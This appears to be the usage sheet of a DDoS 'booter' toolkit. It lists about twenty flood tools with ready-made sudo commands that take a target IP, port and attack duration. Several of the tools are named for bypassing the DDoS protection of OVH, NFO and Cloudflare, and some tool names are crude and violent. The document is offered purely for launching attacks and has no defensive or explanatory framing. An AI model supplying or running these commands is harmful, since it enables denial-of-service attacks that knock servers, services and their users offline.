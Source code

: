 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time ack

HEX : sudo ./HEX OVH %ip% %port% 300

NUKE-BYPASS : sudo ./HiperOVH %ip% %port

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 300

ETHERA : sudo ./ETHERA %ip% %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300

NFO : sudo ./NFO %ip% %port% 10 -1 300

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 300

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 300

NULL : sudo perl UDP_NULL.pl %ip% 300

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 300

UDP-MIX : sudo perl UDP_MIX.pl %ip% 300

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 300

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 300
